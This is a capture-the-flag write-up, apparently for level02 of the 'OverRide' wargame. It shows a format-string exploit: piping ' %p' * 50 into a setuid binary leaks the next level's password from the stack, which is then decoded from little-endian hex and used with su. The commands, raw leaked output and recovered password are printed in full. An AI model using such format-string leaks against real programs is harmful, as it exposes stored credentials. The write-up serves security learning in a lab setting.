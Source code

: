 After looking at the code, we see that the password of level03 is stored in a variable, and there is a vulnerable call to printf if the password check fails. At first we try to simply print the content of the stack to see if there's anything relevant (see [rainfall levels 03-05](https://github.com/SERAC-SGM/rainfall-42)) :

    level02@OverRide:~$ python -c 'print " %p" * 50' | ./level02 
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: --[ Password: *****************************************
    0x7fffffffe4f0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520 (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 does not have access!

Thanks to our newly acquired skill to detect ASCII in hexadecimal format, we can find 5 weird-looking values, and their converted ASCII value :

    0x756e505234376848: unPR47hH
    0x45414a3561733951: EAJ5as9Q
    0x377a7143574e6758: 7zqCWNgX
    0x354a35686e475873: 5J5hnGXs
    0x48336750664b394d: H3gPfK9M

The string formed is (don't forget the stack is from lowest to highest bytes ) :

    H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

This is **very strangely** similar to a password. Let's try it :

    level02@OverRide:~$ su level03
    Password: H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH
    su: Authentication failure

Of course little-endian architecture is to blame here.

    level02@OverRide:~$ echo "H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH" | rev
    Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
    level02@OverRide:~$ su level03
    Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
    level03@OverRide:~$

noice
